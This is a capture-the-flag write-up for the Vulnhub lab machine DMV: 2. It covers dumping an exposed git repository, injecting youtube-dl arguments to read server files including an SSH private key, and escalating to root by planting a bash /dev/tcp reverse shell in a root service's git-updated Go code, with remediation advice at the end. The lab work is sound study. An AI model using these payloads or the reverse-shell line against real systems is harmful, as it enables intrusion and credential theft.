


# DMV 2

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [DMV: 2](https://www.vulnhub.com/entry/dmv-2,474/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:W/RC:U/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:W/RC:U/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Machine Name: DMV 2
Goal: Get the user and the root flag
Difficulty: Medium/Intermediate Level
Description: "This time I am going to complicate things for you, I have fixed all the bugs and now my website is 100% secure, I challenge you to hack it". Your feedback is appreciated - Twitter: @over_jt. This works better with VirtualBox rather than VMware.*


## Summary
DMV: 2 starts with a `/.git/` repository found with `nmap` general script scans. After reading in  [hacktricks for git enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git), I find the [git dumper tool](https://github.com/arthaud/git-dumper), and I can get the source code, and I identify that it uses the  [youtube-dl tool](https://github.com/ytdl-org/youtube-dl), but it sanitized the input URL with the [explode function](https://www.php.net/manual/en/function.explode.php) to avoid spaces, with the  [escapeshellarg function](https://www.php.net/manual/en/function.escapeshellarg.php) which ensure that the input is only a string argument, then I can only use `youtube-dl` arguments. When I explore the `youtube-dl` code, I identify that it uses the `otparse` library to handle arguments when I read the [`otparse` documentation](https://docs.python.org/es/3/library/optparse.html) then I notice that I can concatenate `short` options and that the `PHP` code returns me the error messages, with that I am able to perform a path traversal attack with the `-ia` options, `-i` to continue although it finds errors, and `-a` to select a file with `URL` links, and I select any file of the server, it will show errors because it can find those "URLs", with that, I can use `ffuf` to enumerate all the defaults files the server has, and I am able to leak the `ssh` private key of the `developerdmv`. Once I connect with `ssh` with the  `developerdmv` user, I get the user flag, and I find with the `ps` command that the `root` user is running `/etc/dmvservice.sh`, and that runs the `/root/admin/admin` binary that is a custom service that I find in the port `4545`, but I also find the `admin.git` directory in the `developerdmv` home directory, and I can see that the service is a compiled `Golang` program, and there is the menu I see in the port `4545`, and it runs `git pull origin master && systemctl restart dmvadmin`, and the "remote" repositorie is the `admin.git` directory, then if I modify the `admin.git` code, and I use the service in the `4545` port, I could update itself, and perform any action I want as the root user, then I could perform a reverse shell, and get the `root` shell and the `root` flag.

1. CWE-527: Exposure of Version-Control Repository to an Unauthorized Control
2. CWE-209: Generation of Error Message Containing Sensitive Information
3. CWE-88: Improper Neutralization of Argument Delimiters in a Command
4. CWE-22: Improper Limitation of a Pathname to a Restricted Directory
5. CWE-668: Exposure of Resource to Wrong Sphere
6. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #Python #Ffuf #PathTraversal #Burpsuit #PHP #Golang #youtube-dl #ArgumentInjection #otparse #Git

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is  `192.168.2.40`

> **Note**: I forgot to take the screnshoot of the MAC comparison, but it is the sames as the others machines.

When I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.40
```
Then I can see:


And I identify 3 open ports, the `OpenSSH 7.6p1` service runs on `22` TCP, and the `Apache httpd 2.4.29` service runs on `80` TCP, and a `custom` service runs on `4545` TCP, and it runs on `Ubuntu 4ubuntu0.3`. When I use the `nmap` general scripts:
```
$ nmap -p 22,80,4545 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.40
```
Then I can see:


And I identify that the `/.git` directory is available, and it has a remote location:
```shell
ssh://developerdmv@127.0.0.1/home/developerdmv/site.git/
```
And I can identify the user `developerdmv`, and the custom service returns a menu, and it allows to update the `Main site` or the `Admin`. I need to figure out what kind of update that means.


## Normal use case
Website to download audio from youtube videos.

Given I access `http://192.168.2.40/`, then I can see:



And it seems that if I put the `ID` of a youtube videos, then it would give me an `MP3` file with the audio.
When I test it with the video `ID` `CocEMWdc7Ck`, then I get:
```
Oops! something went wrong
```
And that makes sense because the target machine is isolated.

Given I access `http://192.168.2.40:4545`, then I can see:


And it is an options `menu`

## Dynamic detection
Git repository exposed, argument injection and `Path traversal` in `youtube-dl` command

Given I can access `http://192.168.2.40/`, and I find the directory `/.git`, then I will try to get the files from the repository. When I search in [hacktricks for git enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git), then I find multiples tools:


And I find the [git dumper tool](https://github.com/arthaud/git-dumper) , when I install it with the `pip` command:
```shell
$ pip install git-dumper
```
And I run the command:
```shell
$ mkdir site && git-dumper http://192.168.2.40/ ./site
```
And I see the files the tool found:
```shell
$ tree site
site
├── images
│   ├── background.jpg
│   └── peace.png
├── index.php
├── js
└── style.css
```
Then I read the file `index.php`, and I can see lines 3 to 5:
```php
3 if(!empty($_SERVER['HTTP_X_REQUESTED_WITH']) &&
  strtolower($_SERVER['HTTP_X_REQUESTED_WITH']) == 'xmlhttprequest' &&
  $_SERVER['REQUEST_METHOD'] === 'POST')
4 {
5 $yt_url = explode(" ", $_POST["yt_url"])[0];
```
And the `POST` request requiere the header `HTTP_X_REQUESTED_WITH`, and the `explode()` is applied to the `yt_url` input of the `POST` request. When I read about the [explode function](https://www.php.net/manual/en/function.explode.php), then I can see that in this case, it splits the string with spaces, and it takes the first string, and that means I can not use spaces, and if I do, everything after the first space will be ignored. When I read lines 6 to 9:
```php
6 $id = uniqid();
7 $filename = $id.".%(ext)s";
8 $template = '/var/www/html/tmp/downloads/'. $filename;
9 $string = ('youtube-dl --restrict-filenames --extract-audio \
  --audio-format mp3 ' . escapeshellarg($yt_url) . ' -o ' .
  escapeshellarg($template));
```
Then I can see that it will run the `youtube-dl` command, and the `escapeshellarg()` is applied to the `yt_url` variable, when I read about it on the [PHP official manual page of `escapeshellarg()`](https://www.php.net/manual/en/function.escapeshellarg.php), then I can see:
```
...SNIPPED...
escapeshellarg — Escape a string to be used as a shell argument
...SNIPPED...
```
And that means I could only pass one parameter, and I can not runs other commands, and all my attempts to use `|, &, ; , $` will be escaped `\|, \&, \; , \$`, when I google `escapeshellarg bypass PHP`, then I find a [GitHub repository](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md) with a lot of information:


And one of the sections talks about `Argument Injection`, but almost all options require using spaces, and I can not use spaces because of the `explode` function, and at this point, I try to bypass the `explode` function, when I try to use something else that can be interpreted as spaces, then all my attempts fail, and I start to think of a different approach
When I read the documentation for `youtube-dl`, then I find the [youtube-dl GitHub repository](https://github.com/ytdl-org/youtube-dl), and I can see that it has a lot of parameters options, and after a while of analyzing what to do, I check the other open port. When I access `http://192.168.2.40:4545`, and I connect it with the `nc` command:
```shell
$ nc -nv 192.168.2.40 4545
(UNKNOWN) [192.168.2.40] 4545 (?) open
========== Welcome to DMV Admin ==========
Select product to update:
1) Main site
2) DMV Admin
other) Exit
```
When I use option `1`, then I get the output:
```shell
Output:
From ssh://127.0.0.1/home/developerdmv/site
* branch            master     -> FETCH_HEAD
Already up to date.
...
```
And I can see the same thing that `nmap` initially identified, and the remote repository is in the `developersdmv`'s home
When I use option `2`, then the connection closed without any response, and that makes me think that the service is likely to update itself. When I try another option, then I get an `Invalid choice` message, but I could not get any more useful information, and I decided to go back to the Youtube downloader app, When I list the current limitations I have:
```
1. I can not use spaces
2. I can only use `youtube-dl` arguments
3. If I do not send a URL, the `youtube-dl` command will fail
```
Then I decided to find a way where I only have to use the arguments, when I read the code from the `youtube-dl` repository, then I identify that it uses the `otparse` Python library, and with that, it parses the arguments. When I read the [`otparse` documentation](https://docs.python.org/es/3/library/optparse.html), then I notice that I can join `short` options:


And I start to list the short options I have with `youtube-dl`:
```shell
-i, --ignore-errors         Continue on download errors, for
-r, --limit-rate RATE       Maximum download rate in bytes per
-R, --retries RETRIES       Number of retries (default is 10), or
-a, --batch-file FILE       File containing URLs to download ('-'
-o, --output TEMPLATE       Output filename template, see the
-w, --no-overwrites         Do not overwrite files
-c, --continue              Force resume of partially downloaded
...
```
And I notice that I can read file URLs with the `-a` option, and if I combine it with the `-i` option, then it would not stop with the first error. When I try it, and I send the payload `yt_url=-ia/etc/passwd` with `BurpSuit`, then I get the response:


And I can see the `/etc/passwd` file in the error message, and unconventionally, I can perform a path traversal, then I can conclude I can inject arguments to the `youtube-dl` command, and with that, I can perform a path traversal attack.

## Exploitation
Exposed private ssh key with the path traversal and modify root service with git repository.

Given I can access `http://192.168.2.40/`, and I can make a `POST` request with the `yt_url` parameter, and I was able to read the `index.php` file with an exposed git repository, and I can inject arguments into the `youtube-dl` command, and with that, I can perform a Path traversal, then I will try to find some sensitive data to get a shell. When I use the `ffuf` command, and I make sure to put the header `X-Requested-With: XMLHttpRequest`, and I use a list of Seclist:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.txt:FUZZ -u "http://192.168.2.40/" \
> -H "X-Requested-With: XMLHttpRequest" -d "yt_url=-iaFUZZ" \
> -H "Content-Type: application/x-www-form-urlencoded; " -t 1 -fw 8
```
Then I can see:


And the `~/.ssh/id_rsa` catches my eye, when I use `Burpsuit` to get the response, then I can see a private key:


When I copy the response and remove the noise with `VScode` , Then I get the private key:


When I store it in a file called `id_rsa`, And I change the permission to `400`:
```shell
$ chmod 400 id_rsa
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa developerdmv@192.168.2.40
```
Then I can connect to the `developerdmv` shell:


And I can get the user flag:


## Privilege escalation

When I explore the server, and I use the `ps` command:
```shell
$ developerdmv@dmv2:~$ ps aux
root  1938  ...  3140 ?   Ss   00:28   0:00 /bin/bash /etc/dmvservice.sh
root  1950  ...  2220 ?   Sl   00:28   0:00 ./root/admin/admin
```
When I read the `dmvservice.sh` file:
```shell
#!/bin/bash
chmod +x /root/admin/admin && ./root/admin/admin
```
Then I can see that the root user is running the service on TCP port `4545`, and in the way that the `site.git` works to update the website, then the `admin.git` probably update the `admin` files, but to test it, first I copy the `ssh` key to user `developerdmv`, and I created a file with `vim` in `~/.ssh/id_rsa`. When I create a new directory in `~/test`, and I run the `git clone` command, and I use the `ssh` private key that I copied previously:
```shell
developerdmv@dmv2:~/test$ git clone \
> ssh://127.0.0.1/home/developerdmv/admin \
> --config core.sshCommand="ssh -i ~/.ssh/id_rsa"
```
And I check the created files:
```shell
developerdmv@dmv2:~/test$ ls -la admin
...
drwxrwxr-x 8 developerdmv developerdmv    4096 Feb  9 02:30 .git
-rw-rw-r-- 1 developerdmv developerdmv 3196310 Feb  9 02:30 admin
-rw-rw-r-- 1 developerdmv developerdmv      26 Feb  9 02:30 go.mod
-rw-rw-r-- 1 developerdmv developerdmv    1587 Feb  9 02:30 main.go
```
Then I can see that the service is a compiled `Golang` program, when I look at the `main.go` function, then I can see from lines 43 to 47:
```go
...
43  switch intChoice {
44  case 1:
45    out, cmdErr = execCommand("cd /var/www/html/ && git checkout . &&
      git pull origin master")
46  case 2:
47    out, cmdErr = execCommand("cd /root/admin/ && git checkout . &&
      git pull origin master && systemctl restart dmvadmin")
...
```
And with that, I can confirm that if I push a commit to `admin.site`, then I could update it in the `/root/admin` directory, and the service will be restarted with the change that I make, when I modify the `main.go` code with `Vim`, and I add the following `case 3`:
```go
...SNIPPED...
  c.Write([]byte("3) Reverse shell\n"))
...SNIPPED...
  case 3:
    out, cmdErr = execCommand("bash -c 'bash -i >&
      /dev/tcp/192.168.2.31/1234 0>&1'")
...SNIPPED...
```
Then now I need to compile it, but I can not find the `Golang` binaries on the target server, when I see the `go.mod` file then I can see that it uses `go 1.14`, when I follow the [Golang installation](https://go.dev/doc/install), and I download `version 1.14` on my local machine:
```shell
$ wget https://go.dev/dl/go1.14.linux-amd64.tar.gz
```
And I send it to the target machine with the `scp` command:
```shell
$ scp -i id_rsa go1.14.linux-amd64.tar.gz \
> developerdmv@192.168.2.40:/home/developerdmv/
```
And I create the `~/.local/bin` directory:
```shell
$ developerdmv@dmv2:~$ mkdir -p ~/.local/bin
```
And I extract the `tar.gz` file:
```shell
$ developerdmv@dmv2:~$ rm -rf ~/.local/bin/go && \
> tar -C ~/.local/bin -xzf go1.14.linux-amd64.tar.gz
```
And I add the path to the `PATH` environment variable:
```shell
$ developerdmv@dmv2:~$ \
> export PATH=$PATH:/home/developerdmv/.local/bin/go/bin
```
And I check the version to verify that everything is ok:
```shell
$ developerdmv@dmv2:~$ go version
go version go1.14 linux/amd64
```
And now, I can use the `go` command. When I compile the `main.go` script:
```shell
$ developerdmv@dmv2:~/test/admin$ go build -o admin
```
Then I have the new `admin` binary file, when I make the commit:
```shell
developerdmv@dmv2:~/test/admin$ git commit -am "test: rs"
```
And I use the `git push` command:
```shell
$ developerdmv@dmv2:~/test/admin$ git push origin master
```
Then I upload the change to the remote repository, and I am going to verify if that works. When I connect to the `admin` service:
```shell
$ nc -nv 192.168.2.40 4545
```
And I use option `2` to update the `admin` service:, and I connect it again with the `nc` command, then I can see that the third option now appears:


When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the new `3` option that I added earlier to the `admin` service, then I can get the `root` shell, and I can get the `root` flag:



## Remediation
Given I can access the '/.git/' directory from the webroot, then they should remove the `git` directory from the production server, and sanitize the `yt_url` user input to allow only `YouTube ID`, and do not reuse the ssh private key, and do not store the remote repository of a `root` service in a user's home, when exposing critical services, then use a proper authentication mechanism.